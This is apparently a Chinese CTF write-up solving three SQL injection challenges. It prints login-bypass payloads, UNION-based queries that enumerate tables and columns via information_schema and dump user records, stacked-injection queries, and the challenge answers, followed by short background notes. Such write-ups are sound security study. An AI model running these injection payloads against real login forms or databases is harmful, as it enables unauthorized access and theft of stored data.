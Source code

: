 ## 极客大挑战 easysql

本题比较简单，用户登录界面存在 sql 注入，通过 sql 注入 或 永真语句 达到绕过密码检查的目的。
sql 注入时，需要检查是数字型注入还是字符型注入，二者的主要区别是是否需要匹配引号。

```sql
' or '1' = '1 ' 
or 1=1 --' 
' or 1=1# 
```

##  Lovesql

同样存在 sql 注入漏洞。
sql 注入登录后使用 union 语句查看回显点

```sql
# 判断回显点位 
/check.php?username=1' union select 1,2,3%23&password=1   
# 查询有哪些表 
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23 &password=1   
# 查询geekuser有哪些字段 
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'%23&password=1

# 本题答案
/check.php?username=1' union select 1,id,username from l0ve1ysq1%23&password=1

```

几个做题的关键点，首先要定位回显点，然后是数据库隐私数据读取和显示。

首先读取数据库信息，如表名，列名。然后将所有能读取的数据读取出来。

推测原始sql语句如下：

```mysql
select username = '用户输入' and password = '用户输入'
```

## SUCTF 2019 Easysql

使用开发者工具发现sql注入通过 post 数据包的 query 字段传输。

输入字符串或者 0 字符均无显示，输入非 0 数字有显示，证明语句中可能存在 ||  (逻辑或)

猜测 sql 拼接语句如下：

```sql
select 用户输入 || flag from table;
```

使用 * 查询出数据库中的全部内容。

```mysql
# 答案
*,1
```

本题还能使用`堆叠注入`查看数据库中的信息，但是由于 flag个关键字被过滤了，因此无法直接读取 flag 表格。

```mysql
1;show databases;
1;show tables; 
```

## 一些相关知识

- information_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。什么是元数据呢？元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。
  TABLES表：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息。是show tables from schemaname的结果取之此表。
- database 函数: 返回数据库名称
- GROUP_CONCAT(expr) 函数会从 expr 中连接所有非 NULL 的字符串
-  || 逻辑或当操作数为 0（假） ，则返回值为 0，否则为真，返回值为1值为 0。但是有一点除外，那就是 NOT NULL 的返回值为 NULL 
## 参考文献

- [关于MySQL数据库的information_schema等的解释 ]()